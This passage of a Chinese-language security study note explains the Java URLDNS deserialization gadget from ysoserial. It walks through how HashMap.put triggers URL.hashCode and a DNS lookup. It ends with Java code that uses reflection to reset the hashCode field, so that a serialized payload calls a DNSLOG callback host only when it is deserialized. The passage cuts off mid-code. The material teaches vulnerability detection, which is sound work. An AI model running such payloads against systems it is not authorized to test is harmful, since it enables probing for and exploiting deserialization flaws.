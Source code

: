 ![image-20241029093525401](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029093525401.png)

也就是`HashMap`通过`put`方法，对`key`进行`HashCode`，而URL类中正好重写了`HashCode`，

所以将URL类作为HashMap的key即可，这样在借助`DNSLOG`等平台可以进行反序列化的验证。

#### 用代码验证前面的猜想：

> ysoserial：https://github.com/frohoff/ysoserial.git
>
> 路径：ysoserial/src/main/java/ysoserial/payloads/URLDNS.java
>
> https://www.freebuf.com/articles/web/371930.html

```JAVA
 public static void main(String[] args) throws MalformedURLException {
        HashMap<URL, Integer> urlIntegerHashMap = new HashMap<>();
        URL url = new URL("http://e82253f1.log.dnslog.biz");
        urlIntegerHashMap.put(url,123);
    }
```

在详细的跟进源码一探究竟。

https://dnslog.org/

![image-20241029105010047](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029105010047.png)

![image-20241029093011278](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029093011278.png)

![image-20241029093040217](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029093040217.png)

跟踪完源码之后会有一个疑问，

#### 如何在反序列化的时候让目标对象去执行呢？

也就是不在序列化阶段执行，而**在反序列化的时候**让目标对象去执行这个PalyLoad。

如果细心分析源码就会在URL类的`hashCode`方法中有一个条件当`this.hashCode != -1`的时候会返回该`hashCode`值，不会去实际执行目标对象的hashCode，

也就是说我们可以在调用`hashMap.put`之前将hashCode值改为**非-1**，在hashMap.put之后将hashCode值改为-1，这样就保证了在序列化阶段不去执行而在反序列化阶段去执行。

那么如何做呢？首先看URL类中`hashCode`为 `private`属性Int类型的一个值，所以想要改变其值我们想到的应该是**利用反射技术**来实现。

![image-20241029105159808](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029105159808.png)

#### 最终的PalyLoad：

##### 序列化：

不在序列化阶段执行

```java
public class DnsUrlT {
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException {
        HashMap<URL, Integer> urlIntegerHashMap = new HashMap<>();
        URL url = new URL("http://c4c2b65d.log.dnslog.biz");
        Class clz = URL.class;
        //hashcode改为1
        Field hashCode = clz.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,111);
        urlIntegerHashMap.put(url,123);
        //hashcode改回-1
        hashCode.set(url,-1);
        Serialize(urlIntegerHashMap);
    }
```